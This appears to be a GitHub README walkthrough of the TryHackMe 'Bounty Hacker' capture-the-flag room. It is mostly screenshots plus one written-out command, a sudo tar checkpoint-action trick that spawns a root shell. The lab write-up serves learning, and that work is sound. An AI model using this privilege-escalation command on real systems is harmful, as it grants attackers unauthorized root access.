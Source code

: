 <p align="center">October 20, 2024</p>
<p align="center">Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{167}}$$-day-streak in  <a href="https://tryhackme.com/r/hacktivities">TryHackMe</a>.</p>

<h1 align="center">
  $$\textcolor{#3bd62d}{\textnormal{Bounty Hacker}}$$
</h1>
<p align="center">You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!</p>
<p align="center">Access this 🆓 TryHackMe CTF Room clicking <a href="https://tryhackme.com/r/room/cowboyhackers">Bounty Hacker</a>.</p>
                                                              
<p align="center">
  <img height="150px" hspace="20" src="https://github.com/user-attachments/assets/d853e4c1-d813-4814-a8f7-0f891e6924d5">
  <img width="900px" src="https://github.com/user-attachments/assets/010465f9-4cd7-42e3-ac0a-d6f6cfd5faec">
</p>


![image](https://github.com/user-attachments/assets/d6f6de4c-3968-4daf-94e6-dabd211d854b)

![image](https://github.com/user-attachments/assets/81b1bee3-2deb-4df4-a342-d09f7a9f573f)



![image](https://github.com/user-attachments/assets/9dc80404-367c-48a2-8f65-407e1930a7b3)

![image](https://github.com/user-attachments/assets/626aa575-d5c1-4a38-b009-4c332ac887f9)

![image](https://github.com/user-attachments/assets/b687ec32-95d8-4c44-9a78-63d5d1eee097)

![image](https://github.com/user-attachments/assets/83a7cd30-102a-4cf8-a56d-466a8f0f8a36)

![image](https://github.com/user-attachments/assets/c15ffb71-8849-4b35-9354-c27cb60e7ec1)

![image](https://github.com/user-attachments/assets/81b7e746-cdb0-4703-b234-2f55053bff3f)

![image](https://github.com/user-attachments/assets/c1606844-66d4-4ced-b362-fd97a24de819)

![image](https://github.com/user-attachments/assets/24953f6f-3a61-4e89-a0b7-2a6edaf97718)

![image](https://github.com/user-attachments/assets/e6193965-977e-4f14-bb88-cfa927f5170b)

![image](https://github.com/user-attachments/assets/51f5f6fd-9c55-4ed4-810f-79ef4c9198e6)

sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

![image](https://github.com/user-attachments/assets/95445546-e335-4d05-83d9-303c5b2e4aec)


![image](https://github.com/user-attachments/assets/a833fd3c-e823-4cff-9d6b-becf6b4517a3)


![image](https://github.com/user-attachments/assets/3973057e-bf05-43fd-a1b9-289e8e44f43a)

![image](https://github.com/user-attachments/assets/34894c4a-9a99-4cf1-8431-1621e6622521)















